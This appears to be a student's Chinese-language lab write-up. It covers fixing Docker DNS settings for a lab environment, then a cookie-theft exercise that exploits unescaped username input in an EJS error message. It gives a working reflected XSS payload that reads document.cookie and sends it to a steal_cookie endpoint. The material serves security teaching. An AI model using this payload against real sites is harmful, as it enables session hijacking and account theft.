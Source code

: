 发现手动 `curl https://registry.npmjs.org/babel-cli` 是可以连上的。推测是 docker 的问题。于是在 Dockerfile 中加入下面一行进行测试:

```text
RUN curl https://registry.npmjs.org/babel-cli
```

得到报错:

```text
curl: (6) Could not resolve host: registry.npmmirror.com
```

推测为 DNS 问题。找到一篇 [CSDN 博客](https://blog.csdn.net/lennSUIkA/article/details/80157427)。

参考[官方文档](https://docs.docker.com/engine/reference/commandline/dockerd/#daemon-configuration-file)，修改 /etc/docker/daemon.json 添加 dns 服务器。

该地址通过 `resolvectl status | grep DNS` 查看。

```json
{
    "dns": ["192.168.43.2"]
}
```

修改后，重启 docker 服务即可。

```bash
systemctl daemon-reload
systemctl restart docker
```

### 挂起虚拟机后重新打开无法访问容器

不懂，遇事不决 `systemctl restart docker`。

## 攻击实验

### Cookie Theft

看源码，views/profile/view.ejs 里，直接把 errorMsg 塞进了 Html 文本里，而 router.js 里这个错误信息是这样定义的:

```js
`${req.query.username} does not exist!`
```

也就是说，我们要构造字符串替换掉下面的 username 部分

```html
<p class='error'> ${req.query.username} does not exist! </p>
```

前面的标签让它闭合，后面的标签让它隐藏，中间塞脚本就行。答案如下

```js
</p>
<script>
let cke = document.cookie;
let url = `steal_cookie?cookie=${cke}`;
let xhr = new XMLHttpRequest();
xhr.open("GET", url);
xhr.send();
</script>
<p style="display:none">
```
